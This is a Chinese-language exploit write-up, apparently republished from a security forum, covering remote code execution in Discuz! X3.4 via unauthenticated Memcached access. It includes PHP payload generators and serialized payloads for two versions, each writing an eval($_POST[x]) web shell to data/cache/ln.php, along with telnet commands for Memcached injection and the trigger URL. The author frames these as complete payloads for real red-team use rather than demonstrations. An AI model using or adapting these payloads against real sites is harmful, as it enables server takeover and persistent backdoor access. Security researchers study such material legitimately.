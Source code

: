 # Discuz x3.4 Memcached未授权访问导致的rce

> 原文：[https://www.zhihuifly.com/t/topic/2876](https://www.zhihuifly.com/t/topic/2876)

# Discuz! X3.4 Memcached未授权访问导致的rce

## 一、漏洞简介

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

## 二、漏洞影响

*   <= x3.4

*   windows

*   php>5.3+php-curl<=7.54

*   DZ开放在80端口

## 三、复现过程

### 漏洞分析

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![image](img/93b92ad9102837854f7b8dc19754955d.png)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

```
forum.php?mod=ajax&inajax=yes&action=getthreadtypes 
```

```
./source/module/forum/forum_ajax.php 
```

![image](img/f8347f0dffaed17f8fa3323721fdf9a4.png)

```
./template/default/common/footer_ajax.htm 
```

![image](img/614d883357deb3d777a17a94464bc298.png)

```
./source/function/function_core.php 
```

![image](img/7e71a7c632c637cb70cd2cc0cc958783.png)

```
./source/function/function_core.php 
```

![image](img/6900fc91f23ae32c89dbef83d18c59be.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

```
<?php
$payload['output']['preg']['search']['plugins']= "/.*/e";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload); 
```

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}} 
```

然后telnet链接memcached

```
telnet 1.1.1.1 11211 
```

```
set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。 
```

![image](img/a4a760e2c882a43659be202157beffd4.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成**/data/cache/ln.php**

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

```
<?php
$payload['output']['preg']['search']['plugins']= "/.*/";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload); 
```

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}} 
```

![image](img/31b373440e8bb3fee492e7c4b23795d9.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![image](img/8cf81cc83acf647087fd785195733d33.png)

最后一定要恢复缓存

Delete Vtfbsm_setting

成功写入文件

![image](img/1c72c2b5ba7c67ce3e7ec7da3f1165a3.png)

## 参考链接

> https://xz.aliyun.com/t/2018